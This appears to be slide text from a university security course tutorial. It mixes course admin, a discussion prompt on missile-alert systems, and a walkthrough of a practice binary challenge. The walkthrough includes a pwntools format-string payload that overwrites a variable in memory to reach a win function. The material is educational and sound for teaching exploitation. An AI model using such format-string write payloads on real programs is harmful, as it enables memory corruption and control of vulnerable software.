

We'll start at 10:05am
Please let me know if you like this format better 🙂
Has anyone not received an email?
Please give me an indication of not being able to progress (i.e. what you tried that didn't work, and asking for help)
- Johnny Cab
- Snoop
Houdini optional
Opt-in form released sometime this week
Guaranteed mark (70?) iff you pass all parts of the course

Week 10 security theatre
Take the three day simple extension!
- Presentation (in W9/W10)
- Report (any format)
- Basically show and tell
- Next week we will establish order
- I will be giving full marks if you try (unless I am provided with a marking rubric)
- Any format (text, video etc.)
- Please don't zip bomb me 🥺
- Should be summary and reflection on project
- Including a breakdown of how you spent your time will make giving you marks much easier

Consider whether there are better alternatives present to replace an SMS alert in Sydney for future Missile threats.
What should we do, how would you design an early warning system and what are your recommendations?
Drownings
As a result, the adult ends up putting their own lives at risk, with the child being saved as the end result.
- How to win?
- Binary Ninja
- Win function
- Called if favourite number <= 99
- But favourite number is random!
- What if we could overwrite favourite number?
# you can use pwntools to find the address of your target
targetAddress = ELF(binary).symbols['target']
# overwrite target with 42: %42c -> 41 spaces and some char
# %2$hhn -> 1 byte (half half) at the 2nd position
payload = b"%42c%2$hhn"
# 8 byte align your argument on the stack
payload = payload.ljust(64)
# insert targetAddress onto the stack after your argument
# to overwrite your target
payload += p64(targetAddress)
ELF(binary).symbols['target']
Your target may be at the same address
You may have to leak it